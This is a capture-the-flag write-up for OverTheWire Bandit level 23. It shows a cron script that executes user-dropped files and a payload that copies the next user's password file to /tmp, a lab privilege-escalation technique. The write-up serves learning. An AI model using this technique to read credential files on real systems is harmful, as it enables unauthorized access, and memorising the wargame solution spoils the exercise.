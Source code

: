# Bandit

## Level 23
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

<br/>

## Solution
Again, we find a script present in `/etc/cron.d/` directory for user bandit24.

Content of `/usr/bin/cronjob_bandit24.sh`
```shell
$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Breakdown of Above Script: <br/>
  - Look for a file owned by user `bandit23` in `/var/spool/bandit24`<br/>
  - If its there, run that file and terminate it if it runs for more than 60 seconds

Below steps were taken to reveal password for next Level:

1. Create a file `/tmp/payload.sh` file.
2. Put a simple command to output password.
```shell
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_passwd
```
3. Wait, cronjob will run `payload.sh` as user bandit24 and then delete it.
4. As result, we can find the password in `/tmp/bandit24_passwd` file.

<br/>
Solution Screenshot:

![Level 23 Image](./images/Level23.png)

<br/>

[<< Back](https://grey-fish.github.io/Bandit/index.html)